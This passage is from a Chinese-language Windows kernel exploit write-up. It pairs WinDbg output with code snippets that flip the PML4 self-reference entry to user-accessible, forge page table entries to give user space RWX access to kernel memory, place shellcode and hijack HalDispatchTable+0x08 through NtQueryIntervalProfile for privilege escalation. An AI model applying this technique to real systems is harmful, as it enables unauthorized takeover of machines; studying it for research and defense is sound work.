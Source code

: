     1: kd> .process /i 0xfffffa801a59c440
    
    0: kd> !pte 0xFFFFF6FB7DBEDF68
                                               VA fffff6fb7dbed000
    PXE at FFFFF6FB7DBEDF68    PPE at FFFFF6FB7DBEDF68    PDE at FFFFF6FB7DBEDF68    PTE at FFFFF6FB7DBEDF68
    contains 000000005CB99863  contains 000000005CB99863  contains 000000005CB99863  contains 000000005CB99863
    pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV

利用代码执行之后：

    0: kd> !pte 0xFFFFF6FB7DBEDF68
                                               VA fffff6fb7dbed000
    PXE at FFFFF6FB7DBEDF68    PPE at FFFFF6FB7DBEDF68    PDE at FFFFF6FB7DBEDF68    PTE at FFFFF6FB7DBEDF68
    contains 000000005CB99867  contains 000000005CB99867  contains 000000005CB99867  contains 000000005CB99867
    pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV

其中的控制位已经由 ---DA--KWEV 变成了 ---DA--UWEV。

### 创建新的页表项

PML4T自引用地址0xFFFFF6FB7DBEDF68所在的页还有好多虚拟地址没有使用，这些地址可以
用来映射我们需要访问的任何内核地址，更新物理地址和页表(U/S=1，R/W=1，NX=0)，让内
核虚拟地址在用户空间拥有RWX权限。代码中的`create_spurious_pte_to_virtual_address()`
函数实现了该功能。

- 创建页表项使得在用户空间读取HalDispatchTable+0x08处的值：

        UINT64 original_pointer = get_OverwriteAddress_pointer(overwrite_address, overwrite_offset);

- 创建页表项把shellcode代码写入内核空间内存0xffffffffffd00d50处，并拥有执行权限：

        UINT64 shellcode_va = store_shellcode_in_hal();

- 创建页表项把shellcode的地址0xffffffffffd00d50写到HalDispatchTable+0x08位置:

        overwrite_TargetAddress(shellcode_va, overwrite_address, overwrite_offset);

### Shellcode

我们利用HalDispatchTable来提权，把HalDispatchTable+0x08处替换成shellcode的地址，
然后应用层调用NtQueryIntervalProfile函数来触发执行shellcode。

    1: kd> dq HalDispatchTable
        fffff800`04006c60  00000000`00000004 fffff800`044388e8

    1: kd> uf fffff800`044388e8
    hal!HaliQuerySystemInformation:
    fffff800`044388e8 fff3            push    rbx
    ...

    1: kd> uf NtQueryIntervalProfile
    fffff800`042120d8 e8930affff      call    nt!KeQueryIntervalProfile (fffff800`04202b70)
    